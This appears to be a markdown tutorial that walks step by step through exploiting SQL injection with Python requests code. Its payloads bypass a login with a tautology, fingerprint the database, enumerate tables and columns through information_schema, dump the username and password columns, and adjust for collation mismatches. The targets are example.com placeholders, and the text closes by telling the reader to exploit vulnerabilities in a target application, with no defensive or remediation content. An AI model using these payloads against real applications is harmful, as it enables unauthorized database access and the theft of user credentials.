

### Explanation and Code Snippets

1. **Identify Entry Point**:
    - The first step is to identify the entry point where SQL injection might be possible. This usually involves finding input fields, URL parameters, or headers that interact with the database.

    ```python
    # Example: Capturing potential SQL injection point
    payload = "' OR '1'='1"
    url = f"http://example.com/login?username=admin&password={payload}"
    response = requests.get(url)
    ```

2. **Identify Database**:
    - Determine the type of database being used. This helps in crafting appropriate payloads for further steps.

    ```python
    # Example: SQL query to identify database type
    payload = "' UNION SELECT @@version, NULL--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

3. **Identify Tables**:
    - Discover the database schema by listing all the tables present. This is done using information schema tables.

    ```python
    # Example: Listing tables in the database
    payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

4. **Identify Columns**:
    - Once the tables are identified, list all the columns within the target table.

    ```python
    # Example: Listing columns in a specific table
    target_table = "users"
    payload = f"' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='{target_table}'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

5. **Extract Data**:
    - After identifying the columns, extract data from the target columns.

    ```python
    # Example: Extracting data from the target table
    payload = "' UNION SELECT username, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

6. **Handle Collation Issues**:
    - If you encounter collation issues, you need to identify the collation of the columns and adjust your query accordingly.

    ```python
    # Example: Handling collation issues
    payload = "' UNION SELECT COLLATION_NAME FROM information_schema.columns WHERE table_name='users' AND column_name='username'--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    collation = response.text.strip()

    # Adjust payload with collation
    payload = f"' UNION SELECT username COLLATE {collation}, password FROM users--"
    response = requests.get(f"http://example.com/vulnerable?input={payload}")
    print(response.text)
    ```

By following these steps, you can systematically identify and exploit SQL injection vulnerabilities in a target application.